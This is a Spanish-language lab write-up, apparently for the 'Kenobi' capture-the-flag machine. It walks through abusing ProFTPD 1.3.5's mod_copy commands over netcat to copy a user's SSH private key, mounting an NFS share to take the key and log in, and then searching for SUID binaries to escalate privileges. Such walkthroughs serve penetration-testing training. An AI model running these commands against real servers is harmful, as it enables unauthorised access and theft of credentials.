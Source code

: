 ```bash
Shellcodes: No Results
```
El módulo mod_copy implementa los comandos SITE CPFR y SITE CPTO, que permiten copiar archivos/directorios de un lugar a otro en el servidor. Por lo tanto, vamos a mover la clave privada de Kenobi al directorio /var/tmp
```bash
└─$ nc 10.10.65.221 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.65.221]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
Después de haber movido la clave, procederemos a montar el directorio /var/tmp en nuestra máquina
```bash
sudo mkdir /mnt/kenobiNFS
```
```bash
sudo mount 10.10.65.221:/var /mnt/kenobiNFS
```
```bash
ls -la /mnt/kenobiNFS
```
Una vez que hayamos montado el directorio, podemos dirigirnos a /mnt/kenobiNFS/tmp y encontraremos la clave privada con la que podremos iniciar sesión en la cuenta de Kenobi
```bash
cp -r /mnt/kenobiNFS/tmp/id_rsa ~/
```
```bash
sudo chmod 600 id_rsa
```
```bash
ssh -i id_rsa kenobi@10.10.65.221
```

# Privilege escalation
Una forma de obtener acceso como root es verificar qué archivos tienen el bit SUID. Vamos a hacer esa comprobación
```bash
find / -perm -u=s -type f 2>/dev/null
```
Resultado:
```bash
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
```
